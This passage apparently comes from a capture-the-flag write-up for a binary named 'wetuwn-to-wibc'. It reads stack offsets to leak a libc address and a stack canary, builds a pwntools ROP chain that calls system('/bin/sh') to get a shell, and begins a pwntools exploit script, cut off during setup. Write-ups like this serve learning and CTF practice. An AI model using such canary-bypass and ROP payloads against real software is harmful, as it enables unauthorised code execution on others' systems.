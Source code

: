 Near the top of the stack, we can see a few addresses that match the ones we printed earlier.

```asm
02:0010│     0x7fffffffdf70 ◂— 0x2a /* '*' */
03:0018│     0x7fffffffdf78 ◂— 0x8
04:0020│     0x7fffffffdf80 ◂— 0x5
05:0028│     0x7fffffffdf88 ◂— 0x3
06:0030│     0x7fffffffdf90 ◂— 0x2
07:0038│     0x7fffffffdf98 ◂— 0x1
```

For the libc address, our array is at 0x7fffffffdf70, and we want to reach 0x7fffffffe0e8.
This is a difference of 0x178 bytes.
Each element is 8 bytes long, so we can reach this using an index of 47.

For the canary, we want to reach 0x7fffffffe0c8.
This is a difference of 0x158, which is at index 43.

Once we leak both values, we create a ropchain which pops the address of "/bin/sh" into RDI, then calls
`system`.

```py
payload = flat({
    0x108: canary,
    0x110 + 0x8: [
        rop.find_gadget(["ret"])[0],
        rop.find_gadget(["pop rdi", "ret"])[0],
        next(libc.search(b"/bin/sh\x00")),
        libc.sym['system'],
        ],
    })
```

The extra `rop.find_gadget(["ret"])[0]` gadget is to keep the stack aligned, as `system` will segfault if
the stack is not aligned to 16 bytes.

Once we send this payload as our feedback, we are dropped into a shell and can read the flag file.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host localhost --port 1443 wetuwn-to-wibc
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('wetuwn-to-wibc')
libc = ELF('libc.so.6')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'localhost'
port = int(args.PORT or 1443)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)
```